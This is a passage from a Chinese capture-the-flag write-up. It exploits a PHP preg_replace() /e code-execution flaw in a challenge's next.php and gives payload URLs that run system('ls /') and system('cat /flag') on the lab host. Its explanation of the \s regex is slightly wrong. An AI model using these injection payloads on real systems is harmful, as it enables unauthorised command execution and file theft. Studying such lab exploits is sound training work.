 ![upload successful](./images/pasted-279.png)
成功读取到了next.php，代码审计发现使用GET传参了一个参数id，看CSDN上说存在preg_replace() /e漏洞，详细参考:<a herf=https://blog.csdn.net/weixin_43749601/article/details/113417093?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165209725916782425126363%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165209725916782425126363&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-3-113417093-null-null.142%5Ev9%5Epc_search_result_cache,157%5Ev4%5Econtrol&utm_term=Preg_Replace%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&spm=1018.2226.3001.4187>preg_replace() /e代码执行漏洞</a>（点击进查看漏洞解析）

在这里我们利用该漏洞直接上传\s*参数，因为上传其他的参数会被解析过滤，而\s是表示匹配非空格以外的所有字符，所以构造payload:<code>http://4d13bfcf-007d-413d-b3d0-56e680f91582.node4.buuoj.cn:81/next.php?\S**=${getFlag()}&cmd=system(%27ls%20/%27);</code>

![upload successful](./images/pasted-280.png)
得到根目录，继续构造payload:<code>http://4d13bfcf-007d-413d-b3d0-56e680f91582.node4.buuoj.cn:81/next.php?\S*=${getFlag()}&cmd=system(%27cat%20/flag%27);</code>

